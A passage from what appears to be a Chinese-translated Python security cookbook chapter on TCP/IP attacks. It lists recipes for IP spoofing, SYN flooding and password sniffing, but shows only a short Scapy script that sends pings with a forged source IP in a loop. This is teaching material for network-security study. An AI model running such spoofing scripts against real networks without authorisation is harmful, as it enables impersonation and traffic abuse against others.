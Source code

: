 # 十一、TCP/IP 攻击

在本章中，我们将介绍以下配方：

*   IP 地址欺骗
*   同步泛洪
*   局域网上 Python 密码嗅探器

# 介绍

传输层是提供数据传递、流控制和错误恢复服务的层。两个主要的传输层协议是 TCP 和 UDP。在本章中，我们将讨论传输层中的一些常见攻击。

# IP 地址欺骗

有了 Scapy，我们可以简单地制作并发送数据包。因此，如果我们伪造并发送源地址，网络将接受并返回对伪造地址的响应。现在，我们可以创建一个脚本，用伪造的 IP ping 系统。

# 怎么做。。。

以下是创建脚本以使用伪造 IP 发送 ping 请求的步骤：

1.  创建一个`ip-spoof-ping.py`文件并在编辑器中打开它。

2.  然后，我们必须导入所需的模块：

```
from scapy.all import *  
```

3.  现在声明脚本的变量：

```
iface = "en0"
fake_ip = '192.168.1.3'
destination_ip = '192.168.1.5'  
```

4.  创建发送 ICMP 数据包的函数：

```
def ping(source, destination, iface):
    pkt = IP(src=source,dst=destination)/ICMP()
    srloop(IP(src=source,dst=destination)/ICMP(), iface=iface)  
```

这将创建以下数据包并启动发送/接收循环：

![](../images/00062.jpeg)

5.  开始发送伪造的数据包：

```
try:
    print ("Starting Ping")
    ping(fake_ip,destination_ip,iface)    
except KeyboardInterrupt:
    print("Exiting.. ")
    sys.exit(0)  
```
